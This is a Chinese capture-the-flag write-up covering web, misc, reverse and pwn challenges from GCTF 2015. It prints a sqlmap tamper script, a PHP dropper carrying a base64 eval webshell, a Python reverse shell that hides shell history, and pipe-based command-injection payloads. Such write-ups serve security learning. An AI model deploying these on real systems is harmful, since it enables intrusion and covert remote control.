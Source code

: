 ```yaml
---
title: gctf2015-writeup
pubDatetime: 2015-10-03 00:45:04
tags:
  - ctf
description: Already Archive Before 20230604
---
```


## gctf writeup, by cnss

### WEB200

    先吐槽，第一天做的时候web100表里面居然flag字段为空，就以为是个坑，到处翻表，结果是被人搅了而已，那么卡的服务器居然出的是时间盲注真是醉了。
    当url中出现大写的PG_SLEEP的时候就会返回can’t use sleep，测试小写的时候发现可以成功sleep并不拦截。因此写个tamper用sqlmap跑，tamper代码如下：

```python
def dependencies():
    pass

def tamper(payload, **kwargs):

    retVal = payload.replace("PG_SLEEP","pg_sleep");

return retVal
```

    sqlmap的关键参数是 --tamper xxx.py --technique T --dbms postgresql –D public –T web100 --dump  在flag字段注入出flag。

### WEB300

    Hint说会被立刻删除，因此写个php写上上级目录，放进zip中，用burp一直跑对应用户名的上传目录即可。php代码如下：

```php
< ?php
$dir = dirname(__FILE__);
$basedir = $dir."/../../";
system("chmod -Rf 777 ".$basedir); //由于目录权限被搅，还要把权限设置回来
echo $basedir;
echo file_put_contents("../../luoisyourfather.php",base64_decode("DQo8P3BocCANCmlmKG1kNSgkX0dFVFsneCddKSA9PSAiZTNiN2QzZjgyM2VhODJkMmY2M2FkM2JiZmQwN2I0ZmMiKXsNCiAgICBldmFsKCRfUE9TVFsnbHVvJ10pOyANCn0NCj8+"));
?>
```

    本人上传的用户名为testluo，文件名为3.php因此burp一直get /uploads/testluo/3.php，出现200状态码即可
    成功拿到shell后在网站根目录的fl4g文件夹下发现flag。(然后就可以写脚本搅屎了)

### WEB500

    两种办法，可以用portmap把22转发出来用ssh，另一个用python写一个tty的shell反弹出来。我选择python的ttyshell，因为ssh猜密码很麻烦。Python代码如下：

```python
#!/usr/bin/python
import sys
import os
import socket
import pty

shell = "/bin/sh"

def usage(programname):
print "python connect-back door"
print "Usage: %s <conn_back_ip> <port>" % programname

def main():
if len(sys.argv) !=3:
usage(sys.argv[0])
sys.exit(1)

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

try:
s.connect((socket.gethostbyname(sys.argv[1]),int(sys.argv[2])))
print "[+]Connect OK."
except:
print "[-]Cant connect"
sys.exit(2)

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
global shell
os.unsetenv("HISTFILE")
os.unsetenv("HISTFILESIZE")
pty.spawn(shell)
s.close()

if __name__ == "__main__":
main()
```

    弹出来shell后直接su redrain，密码为弱口令asd123!@#，在/home/redrain下发现flag

### Misc 50

    网页源码里 aaencode的代码,运行,出来一个gctf{}，以为少了东西,找了半天提交了一下居然对了..

### Misc100

    递归查{} 注意从源码复制和嵌套,爆破也可以，脚本跑出来一直是267，不对( ⊙ o ⊙ )啊！
    默默+1 -1 发现266对了

```python
#-*-coding:utf-8-*-
def Count():
    s = '''the string without \\'''
    cnt = 0
    left = 0
    for i in s:
        if i == '{':
            left += 1
        if i == '}':
            if (left > 0):
                left -= 1
                cnt += 1
    print cnt

Count()
```

### Misc200/600

    http://insight-labs.org/?p=371 分离出来狗
    LSB在CSDN上有个工具,人家毕业设计 直接跑一下OK出来flag

### Re 1:

    simply Reverse.
    1.py:

```python
str1 = '62C5J110119120L'
	str2 = ''
	for i in range(len(str1)):
		str2 += chr(ord(str1[i]) + 49 )

	print str2
```

### Re2:

    a interesting Reverse, use SEH to control execute process.
    breakpoint in SEH process function(0x401000) and then trigger off a exception.

    there is a simply labyrinth.

```bash
00409036  2A 2A 2A 20 20 2A 2A 20 20 2A 2A 20 2A 2A 2A 2A  ***  **  ** ****
00409046  20 2A 2A 20 2A 2A 2A 2A 2A 2A 2A 20 2A 23 20 20   ** ******* *#
00409056  20 2A 2A 20 2A 2A 2A 2A 20 2A 2A 20 20 2A 2A 20   ** **** **  **
00409066  20 2A 2A 2A 20 20 20 20 2A 2A                     ***    **
```

    everytime I can +8,-8,+1,-1
    from 0x00409046 to 0x00409053
    cannot on 0x2A,length 25.

### Re3:

    use a table to control execution.
    breakpoint on every case to switch.
    look at the parameter of every crucial function(strcmp, strlen and so on)
    input len : 13, every -0x80, compare with a string.

### Pwn1:

    no NX, a global buffer we can enter into.
    a stack overflow, no cookie.

    arrange shellcode in global buffer, use stack overflow to return to buffer,getshell.

### Pwn2:

    no NX, a global buffer we can enter into.
    a fsb, we can leak address.
    a uaf, we can jmp to anywhere.
    but we cannot write shellcode in global buffer,beacuse we use uaf, the buffer will be corrupted.

    so, leak stack address, and then use uaf return to stack buffer.

### Pwn3:

    NX, cannot execute shellcode in stack and heap.
    safe stack, cannot overflow the stack
    but,there is a fsb and a command injection.

    bypass '>', ';', '<'
    use pipe.
    but cannot getshell.
    payload "ping *|ls"
    look at the file of flag's name,flag.txt
    use payload again "ping *|cat flag.txt"

</port></conn_back_ip>
